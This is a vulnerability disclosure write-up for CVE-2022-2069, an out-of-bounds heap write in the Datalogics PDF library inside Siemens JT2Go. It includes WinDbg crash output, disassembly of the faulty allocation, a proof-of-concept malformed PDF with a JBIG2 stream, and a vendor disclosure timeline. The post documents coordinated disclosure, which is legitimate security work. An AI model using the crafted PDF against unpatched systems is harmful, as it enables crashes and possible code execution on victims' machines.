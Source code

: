 ```yaml
---
layout: post
title:  "CVE-2022-2069 - Datalogics File Parsing Vulnerability in Teamcenter Visualization and JT2Go"
date:   2022-08-17 10:00:00 +0800
tags:
    - CVE-2022-2069
    - SSA-829738
---
```


Overview
-----------
JT2Go has been unanimously embraced by industry leaders as the premier free viewing tool for JT data. By providing a comprehensive Desktop application and mobile platform solutions on iOS and Android, Siemens has made viewing of JT data available for everyone in nearly any situation. Exact product that was found to be vulnerable including complete version information was Siemens PLM Software JT2Go 13.3.0.20211108.01. Siemens Teamcenter Visualization and JT2Go are affected by an out of bounds write vulnerability in APDFL library from Datalogics. If a user is tricked to open a malicious PDF file with the affected products, this could lead the application to crash or potentially lead to arbitrary code execution.

Root Cause Analysis
-------------------
An exploitable out-of-bounds heap write vulnerability exists due to an error in the DL180pdfl!PDNameTreeLookup function when handling a maliciously crafted PDF file. A remote attacker may be able to exploit this to execute arbitrary code within the context of the application, via a crafted PDF file. A specially crafted PDF document can trigger an out-of-bounds write, which can disclose sensitive memory content or even write and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. 

An access violation happened when JT2Go tries to open specially crafted PDF file. If we look at the crash path, it appears r9 is containing an out-of-bounds memory region and it was accessed. The analysis performed on DL180pdf.dll that triggers the vulnerability.
```
(5b8.6cc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
DL180pdfl!PDNameTreeLookup+0x785e8a:
00007fff`1d0dd0d0 41897904        mov     dword ptr [r9+4],edi ds:00000257`ff441000=????????

0:000> .exr -1
ExceptionAddress: 00007fff1d0dd0d0 (DL180pdfl!PDNameTreeLookup+0x0000000000785e8a)
ExceptionCode: c0000005 (Access violation)
ExceptionFlags: 00000000
NumberParameters: 2
 Parameter[0]: 0000000000000001
 Parameter[1]: 00000257ff441000
Attempt to write to address 00000257ff441000
```

Looking at the crash path, we know that the r9 is containing OOB memory region:
```
.text:00000001807AD0D0 loc_1807AD0D0:                     
.text:00000001807AD0D0                 mov     [r9+4], edi    ; crash here
.text:00000001807AD0D4                 mov     [r9], edi
.text:00000001807AD0D7                 mov     [r8+4], edi
.text:00000001807AD0DB                 mov     [r8], edi
.text:00000001807AD0DE                 movzx   r13d, [rbp+57h+var_CE]
.text:00000001807AD0E3                 xor     r13b, 1
.text:00000001807AD0E7                 mov     [rbp+57h+var_CE], r13b
```

The pointer was assigned by ASmalloc():
```
; v20 = *(&v58 + v4);
.text:00000001807ACF50 loc_1807ACF50:               
.text:00000001807ACF50                 mov     esi, 0FFFFFFFFh
.text:00000001807ACF55                 mov     r14d, r12d
.text:00000001807ACF58                 movzx   edx, r12w
.text:00000001807ACF5C                 mov     [rbp+57h+var_D0], dx
.text:00000001807ACF60                 xor     r12b, r12b
.text:00000001807ACF63                 mov     [rbp+57h+arg_18], r12b
.text:00000001807ACF67                 movzx   eax, r13b
.text:00000001807ACF6B                 mov     r8, qword ptr [rbp+rax*8+57h+var_80]
.text:00000001807ACF70                 mov     r9, qword ptr [rbp+rax*8+57h+var_68]       ; r9 was assigned with the point to [rbp+rax*8+57h+var_68]
.text:00000001807ACF75                 mov     [r9], esi
.text:00000001807ACF78                 mov     [r8], esi
.text:00000001807ACF7B                 add     r8, 4
.text:00000001807ACF7F                 mov     [rbp+57h+var_B8], r8
.text:00000001807ACF83                 add     r9, 4
```

This code where it is responsible to assigned the size:
```
; v7 = 4i64 * (*a2 + 4);
.text:00000001807ACE8F                 mov     ebx, eax
.text:00000001807ACE91                 shl     rbx, 2
  
; v11 = ASmalloc(v7);
; *&v58 = v11;
.text:00000001807ACEE6                 mov     ecx, edi
.text:00000001807ACEE8                 call    ASmalloc
.text:00000001807ACEED                 mov     rbx, rax
.text:00000001807ACEF0                 mov     qword ptr [rbp+57h+var_68], rax
```

The r9 register add up with 4 which change the size of the heap with extra 4 bytes:
```
; v22 = v20 + 1;
.text:00000001807ACF83                 add     r9, 4
.text:00000001807ACF87                 mov     [rbp+57h+var_C8], r9
```

However when EDI tries to access r9, it appears it tries to access to a pointer that contains out-of-bounds memory region which triggers heap corruption when it writes to OOB memory.
```
.text:00000001807AD0D0                 mov     [r9+4], edi    ; crash due to heap corruption
.text:00000001807AD0D4                 mov     [r9], edi
.text:00000001807AD0D7                 mov     [r8+4], edi
```

Proof-of-Concept related to the PDF that cause the issue:
```
%PDF-1.4
1 0 obj
<< /Type /Catalog
/Outlines 2 0 R
/Pages 3 0 R
>>
endobj

2 0 obj
<< /Count 0
/Type /Outlines
>>
endobj

3 0 obj
<< /Count 1
/Kids [8 0 R]
/Type /Pages
>>
endobj

4 0 obj
<< /Length 103
>>
stream
���������\������\ö €üYYYYYPPPPPPPPPPPPPPPPPPPPPPPPPPPpPPPPPPPPPS³:>0¨ÿ+1lV?~~èa"xvi´–„#ÿ¬
endstream
endobj

5 0 obj
<< /DecodeParms  << /JBIG2Globals 4 0 R >>
/Width 32
/ColorSpace /DeviceGray
/Height 32
/Filter /JBIG2Decode
/Subtype /Image
/Length 76
/Type /XObject
/BitsPerComponent 1
>>
stream
���0������� ��� ���G���G������"����"��� ��� ��������������žèTìßë	N“ÿ¬
endstream
endobj

6 0 obj
<< /Length 42
>>
stream
q 32.000000 0 0 32.000000 0 0 cm /Im1 Do Q
endstream
endobj

7 0 obj
<< /XObject << /Im1 5 0 R >>
/ProcSet [/PDF /ImageB]
>>
endobj

8 0 obj
<< /Parent 3 0 R
/Type /Page
/Contents 6 0 R
/Resources 7 0 R
/MediaB‚x [ 0 0 32.000000 32.000000 ]
>>
endobj

xref
0 9
0000000000 65535 f 
0000000009 00000 n 
0000000075 00000 n 
0000000122 00000 n 
0000000180 00000 n 
0000000269 00000 n 
0000000553 00000 n 
0000000646 00000 n ¡0000000718 00000 n 

trailer
<< /Size 9
/Root 1 0 R >>
startxref
837
%%EOF
```

Disclosure timeline
-------------------
The vulnerability was reported back in March 2022. Timeline of disclosure:
- [March 9, 2022] Sending the proof-of-concept and the analysis to productcert@siemens.com
- [March 9, 2022] Siemens CERT team acknowledge teh submission and track the submission with ID S-PCERT#50343
- [March 22, 2022] Request for an update to Siemens CERT
- [March 22, 2022] Siemens CERT replying said that they still perform an analysis
- [April 13, 2022] Request for an update to Siemens CERT
- [April 13, 2022] Siemens CERT confirm the issue submitted is valid and they're able to reproduced the issue. They observed the issue resides on DL180pdf library which is a 3rd party library belongs to Datalogics. CERT asked for my detail to be put in their advisory and CVE will be assign.
- [June 21, 2022] Request for an update to Siemens CERT
- [June 21, 2022] Siemens CERT plan to publish an advisory on July 12th and has assigned CVE-2022-2069. 
- [July 12, 2022] Siemens CERT sending an email regarding the advisory on https://cert-portal.siemens.com/productcert/html/ssa-829738.html
